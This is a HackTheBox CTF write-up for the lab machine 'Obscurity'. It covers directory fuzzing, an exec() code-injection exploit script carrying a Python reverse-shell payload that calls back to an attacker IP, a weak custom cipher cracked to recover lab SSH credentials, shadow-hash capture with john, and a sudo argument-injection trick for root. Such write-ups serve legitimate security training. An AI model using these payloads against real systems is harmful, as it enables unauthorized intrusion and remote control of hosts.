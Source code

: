 ```yaml
---
title: "HackTheBox: Obscurity"
date: "2020-05-09"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/obscurity/htb-obscurity.png)

* * *

## Host Enumeration

As usual, we begin with an nmap scan to identify listening services.

- 22: OpenSSH 7.6p1
- 80: Closed HTTP
- 8080: BadHTTPServer

![Image](assets/img/writeups/hackthebox/obscurity/image-10.png)

## Host enumeration - 8080

Interestingly, the version of this service is BadHTTPServer... I am unfamiliar with this service. Due to the nature of HTTP, we navigate to it using the browser and we see a note; their motto is _security through obscurity!_ Interesting for sure. In my secure software development class at university, we were taught that security by obscurity offers no security, and it's only a matter of time until an attacker finds out.

When scrolling down a little, there is a second note from the developers. The web server code is in the **SuperSecureServer.py** file, in the secret development directory. This is where security by obscurity comes into action. The secret development directory is only supposed to be known to those authorized, however we are hackers and can use enumeration tools ;)

![Image](assets/img/writeups/hackthebox/obscurity/image-11-1024x187.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-12.png)

Lets use wfuzz to try and find the directory which SuperSecureServer.py is hidden in. The command can be seen below. The `FUZZ` is the placeholder/ field that is fuzzed by the wordlist. We place `/SuperSecureServer.py` afterwards so that when the correct directory is placed in the field, then we should get a HTTP 200 OK response.

```sh
$ wfuzz -w '/usr/share/wordlists/dirb/common.txt' \
-u 'http://10.10.10.168:8080/FUZZ/SuperSecureServer.py' \
--hc 404,500 -c
```

![Image](assets/img/writeups/hackthebox/obscurity/image-13.png)

Bingo! The secret directory is `develop`. Not so secret after all. Alright, now we have access to the software running the web server. Thankfully Python is an interpreted code language, and does not always get compiled. Hence, we are able to read the source code without any binary reversing.

* * *

## Getting the initial shell

We have to do a code review, perhaps there is some insecure software development which we can exploit. It seems that the web server serves documents which the user controls and is executed using the unsafe `exec()` function.

![Image](assets/img/writeups/hackthebox/obscurity/image-15.png)

Alright, it's time to buckle up and see if we can get RCE by escaping the `exec()`. This is the idea:

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = 'foo'
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

So we just need to change the `path` to get RCE.

```sh
# the desired output
# ' import os;os.system("ping -c 2 10.10.15.95") a='
# together:
path = '\'' + '\nimport os;os.system("ping -c 2 10.10.15.95")\na=\''
```

![Image](assets/img/writeups/hackthebox/obscurity/image-17.png)

So all we need to do to get the reverse shell is to place some [Python reverse shellcode](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = '\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.95",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])\na=\''

print("[+] Sending payload. \n[+] Check netcat listener")
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

![Image](assets/img/writeups/hackthebox/obscurity/image-18.png)

* * *

## Pivot from www-data to Robert

The www-data is able to read the files (but not user.txt!) in the `Robert` home directory. There are some interesting files. I guess we will have to do our second code review, this time against SuperSecureCrypt.py

- check.txt
- out.txt
- passwordreminder.txt
- SuperSecureCrypt.py

![Image](assets/img/writeups/hackthebox/obscurity/image-19.png)

> Don't roll your own crypto
>
> Lecturer at Napier University

![Image](assets/img/writeups/hackthebox/obscurity/image-21.png)

OK so, we see that the encrypt function looks like a ROT13 cipher, but rotation by 255 rather than 13, using a key that is the length of the cipher text. Welcome to a crypto CTF challenge!

Pretty much, what we have to do is use the out.txt as an input file, use the contents of check.txt as the key, and use the `-d` flag to decrypt out.txt. This will give is the encryption key:

```sh
$ python3 SuperSecureCrypt.py \
-i out.txt
-k 'Encrypting this file with your key should result in out.txt, make sure your key is correct!' \
-o passwd-dec.txt \
-d \
&& cat passwd-dec.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

So, now we can use the key to decrypt the password.

```sh
$ python3 SuperSecureCrypt.py \
-i passwordreminder.txt
-k 'alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich'
-o passwordreminder-out.txt
-d \
&& cat passwordreminder-out.txt
SecThruObsFTW
```

![Image](assets/img/writeups/hackthebox/obscurity/image-22.png)

Now we are able to log in to the SSH service with `robert:SecThruObsFTW` credentials.

* * *

## Escalating to Root

When executing `sudo -l` we are able to see whether Robert can execute any scripts as root.

![Image](assets/img/writeups/hackthebox/obscurity/image-24-1024x121.png)

Robert can execute BetterSSH.py as root. There is a bit of a theme developing; it seems that we have to code review again now. We see a big no-no. Instead of using the native SSH binary, the creators created their own - which is supposed to be better. However, there is a gaping mistake in it. It writes the hashes of the **shadow** file to /tmp/SSH/ for 0.1 seconds. Sounds secure, but we can exploit this. We must execute the script as root because otherwise it is not possible to read the shadow hashes.

![Image](assets/img/writeups/hackthebox/obscurity/image-25.png)

There are actually two methods here. The second method I didn't know until I discussed it with another player.

### Method 1 to get root

As the root hash is only placed in the /tmp/SSH directory for 0.1 seconds, we need to create a loop that will cat all files.

```sh
while true; do cat /tmp/SSH/* ; done
```

In a second terminal, we must execute BetterSSH.py as root (using Robert the user) and login with our credentials. Then the root hash will be printed in the first terminal. We can use John to crack the password.

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
mercedes
```

![Image](assets/img/writeups/hackthebox/obscurity/image-26.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-27.png)

We can use the password to switch to the root user in the robert SSH session. While the password could have been brute forced straight away, we cannot login to root through SSH externally, so that would have failed.

![Image](assets/img/writeups/hackthebox/obscurity/image-28.png)

## Method 2 to get root

So, when we run binaries as sudo we can also execute commands as another user, e.g.
`sudo -u foo script.sh` to run script.sh as foo user. We can do:
`-u root cat /root/root.txt` in the BetterSSH shell to get the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-29.png)

We must do a code review to understand _why_ this really works. The screenshot below shows the code that is executed when a user types a command. The key line is highlighted in the orange box.

The BetterSSH is running under root context. To enable user permissions, `sudo -u <username>` is used to execute commands as the authenticated user. However, when we use the command `-u root $command` then we place it in `sudo -u robert -u root $command`. The sudo binary takes the root user, and executes `cat /root/root.txt` to give us the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-31.png)
